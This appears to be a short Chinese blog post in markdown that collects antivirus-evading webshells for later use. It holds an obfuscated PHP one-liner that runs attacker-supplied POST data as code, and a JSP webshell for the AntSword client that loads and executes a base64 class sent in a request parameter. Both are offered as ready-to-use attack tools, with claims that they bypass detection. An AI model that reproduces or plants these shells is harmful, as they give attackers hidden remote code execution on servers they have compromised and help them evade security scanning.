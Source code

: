 ```yaml
---
layout: mypost
title: 免杀马
categories: [马]

---
```


这里累计收集一些比较好用的大、小马备用

php免杀一句话

< php7.1可用， 密码1可改

```php
<?  @("Y;HJ(Z"^"8H;/Z.")(${"~?}$"^"!x8p"}[1]);
```



蚁剑jsp免杀马(可过3x0)

```jsp
<%!class AFKZ extends ClassLoader{ AFKZ(ClassLoader NGOK){ super(NGOK); }public Class g(byte []b){ return super.defineClass(b,0,b.length); }}%><% String cls=request.getParameter("bypass");if(cls!=null){ new AFKZ(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext); }%>
```

